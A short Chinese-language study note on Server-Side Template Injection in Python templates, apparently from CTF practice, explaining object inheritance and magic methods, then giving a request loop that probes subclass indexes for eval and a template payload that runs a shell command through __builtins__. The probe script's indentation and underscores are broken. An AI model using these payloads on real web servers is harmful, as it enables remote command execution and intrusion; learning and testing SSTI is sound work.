



# SSTI注入

> 参考 https://hello-ctf.com/HC_Web/ssti/

## 理论

* **对象** : 在 Python 中 **一切皆为对象** ，当你创建一个列表 `[]`、一个字符串 `""` 或一个字典 `{}` 时，你实际上是在创建不同类型的对象。
* **继承** : 我们知道对象是类的实例，类是对象的模板。在我们创建一个对象的时候，其实就是创建了一个类的实例，而在python中所有的类都继承于一个基类，我们可以通过一些方法，从创建的对象反向查找它的类，以及对应类父类。这样我们就能从任意一个对象回到类的端点，也就是基类，再从端点任意的向下查找。
* **魔术方法** : 我们如何去实现在继承中我们提到的过程呢？这就需要在上面Payload中类似 `__class__`的魔术方法了，通过拼接不同作用的魔术方法来操控类，我们就能实现文件的读取或者命令的执行了。

  ```
  __class__            类的一个内置属性，表示实例对象的类。
  __base__             类型对象的直接基类
  __bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
  __mro__              查看继承关系和调用顺序，返回元组。此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
  ```

+ 
+ 
+ 

## Payload

```python
#使用 python 脚本 用于寻找序号url = "http://url/level/1"
def find_eval(url):
for i in range(500):
data = {
'code': "{{().class.bases[0].subclasses()["+str(i)+"].init.globals['builtins']}}",
}
res = requests.post(url, data=data, headers=headers)
if 'eval' in res.text:
print(data)
find_eval(url)
```

```python
 # 模板语法 _ 命令执行_eval

    
        {{ x.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()') }}
    

```
